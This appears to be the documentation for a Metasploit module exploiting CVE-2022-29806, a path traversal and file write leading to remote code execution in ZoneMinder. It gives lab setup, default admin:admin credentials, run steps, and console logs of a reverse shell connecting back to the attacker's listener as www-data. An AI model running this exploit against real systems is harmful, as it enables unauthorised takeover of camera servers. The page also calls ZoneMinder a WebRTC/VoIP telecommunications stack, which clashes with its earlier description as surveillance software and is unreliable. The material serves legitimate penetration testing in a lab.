## Description

This module exploits an arbitrary file write chained with a path traversal in the debug log file option in language settings that leads to a remote code execution in ZoneMinder surveillance software versions before 1.36.13 and before 1.37.11

More about the vulnerability detail: [CVE-2022-29806](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-29806).

The module will automatically use `php/reverse_perl` payload.

The module will check if authentication is enabled but Zoneminder does not enable the authentication by default.

## Vulnerable Application

[Zoneminder](https://zoneminder.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

This module has been tested successfully on Zoneminder versions:
* 1.36.4~64bit on Ubuntu 18.04
* 1.34.23~64bit on Debian 11.10

### Source and Installers

* [Source Code Repository](https://github.com/ZoneMinder/zoneminder/)
* [Installers](https://github.com/ZoneMinder/zoneminder/#installation-methods)
* [Docker](https://github.com/ZoneMinder/zmdockerfiles)

### Docker installation

```
docker run -d --rm -ti -p 1080:80 \
    -e TZ='Europe/London' \
    --shm-size="512m" \
    --name zoneminder \
    zoneminderhq/zoneminder:latest-ubuntu18.04
```
Navigate to [http:\//172.17.0.2/zm/index.php?view=privacy](http://172.17.0.2/zm/index.php?view=privacy) and click **APPLY** to activate the dashboard

### Enable authentication

To enable authentication for verification and scenarios, follow these steps:
1. Navigate to [http:\//172.17.0.2/zm/index.php?view=options](http://172.17.0.2/zm/index.php?view=options)
2. Tick the **OPT_USE_AUTH** option and click save
3. Login with the default password `admin:admin`
4. Navigate to [http:\//172.17.0.2/zm/index.php?view=options&tab=users](http://172.17.0.2/zm/index.php?view=options&tab=users) and change the admin password

## Verification Steps

1. Do: `use exploit/unix/webapp/zoneminder_lang_exec`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `run`
5. You should get a shell.

## Options

### USERNAME
The ZoneMinder username (default: admin)

### PASSWORD
The ZoneMinder password (default: admin)

## Scenarios
### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker

```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/rmdQiqoLFCsov.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:58932) at 2022-04-27 03:36:31 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker with authentication enabled

```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set PASSWORD password
PASSWORD => password
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/Cn3PqXcN9VlAR98.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:51944) at 2022-04-27 18:53:14 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Failed exploitation due to invalid credentials

```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[-] Service found, but authentication failed
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable.
[*] Exploit completed, but no session was created.
```
